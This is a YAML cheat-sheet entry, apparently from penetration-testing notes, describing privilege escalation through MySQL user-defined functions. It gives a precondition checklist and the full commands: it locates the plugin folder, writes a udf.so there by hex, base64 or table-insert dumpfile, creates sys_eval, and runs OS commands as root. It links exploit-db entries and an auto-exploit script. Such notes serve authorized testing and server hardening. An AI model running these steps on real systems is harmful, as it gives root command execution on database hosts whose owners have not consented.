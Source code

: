 ```yaml
---
functions:
  privilege-escalation:
    - description: Create a user-defined function to escalate privileges via mysql running as root
      code: |
        Create a user-defined-function
        -------------------------------
        - [ ] Do you have write privileges to the db?
        - [ ] Is mysql running as root?
        - [ ] Can you locate the plugin folder?

        SHOW GRANTS;  <-- show privileges
        SHOW VARIABLES;  <-- find the plugin directory  (blank can mean default location of /usr/lib/)

        ===== STEP 1 =====
        Get your udf.so into the plugin folder

        Method 1: copy 
          Copy the udf.so into the plugin folder
        Method 2: perform a hexdump
          od -A n -t x1 lib_mysqludf_sys.so | sed 's/ *//g' | tr -d '\n' | xclip
          select <hex> into dumpfile "<plugin folder>/udf.so";
        Method 3: perform a base64 encoded  (IF MARIADB 5.6+)
          base64 <file> -w 0 > <file>.b64
          base64 -w 0 myudf.so > myudf.b64
          cat <file>.b64 | xclip

          set @lib = "<base64>";
          select from_base64(@lib) into dumpfile "<plugin folder>/udf.so";
        Method 4: transfer file via table inserts  (easiest)
          create table foo(line blob);insert into foo values(load_file('/tmp/myudf.so'));select * from foo into dumpfile "<plugin folder>/udf.so";

        ===== STEP 2 =====
        Create the user-defined function

        create function sys_eval returns string soname 'myudf.so';  (the function name may change depending on your UDF.so library)

        ===== STEP 3 =====
        Code execution

        select sys_eval('id');

resources : |
  https://www.exploit-db.com/exploits/50236
  https://www.exploit-db.com/papers/44139/
  https://github.com/mysqludf/lib_mysqludf_sys  <-- this is the udf file I used
  https://github.com/MidnightSeer/scripts/blob/master/auto-udf.sh  <-- auto exploit, do not use unless you understand all of the above
---
```


